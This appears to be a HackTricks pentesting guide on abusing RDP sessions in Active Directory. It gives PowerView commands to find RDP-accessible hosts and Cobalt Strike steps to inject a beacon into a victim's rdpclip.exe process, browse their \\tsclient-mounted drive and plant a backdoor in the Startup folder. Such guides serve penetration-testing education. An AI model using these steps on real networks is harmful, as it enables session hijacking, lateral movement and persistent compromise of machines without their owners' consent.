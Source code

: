 # RDP Sessions Abuse

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## RDP Process Injection

If the **external group** has **RDP access** to any **computer** in the current domain, an **attacker** could **compromise that computer and wait for him**.

Once that user has accessed via RDP, the **attacker can pivot to that users session** and abuse its permissions in the external domain.

```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```

Check **other ways to steal sessions with other tools** [**in this page.**](../../network-services-pentesting/pentesting-rdp.md#session-stealing)

## RDPInception

If a user access via **RDP into a machine** where an **attacker** is **waiting** for him, the attacker will be able to **inject a beacon in the RDP session of the user** and if the **victim mounted his drive** when accessing via RDP, the **attacker could access it**.

In this case you could just **compromise** the **victims** **original computer** by writing a **backdoor** in the **statup folder**.

```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 ...
 4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     02/20/2021 10:15:23   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          [...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
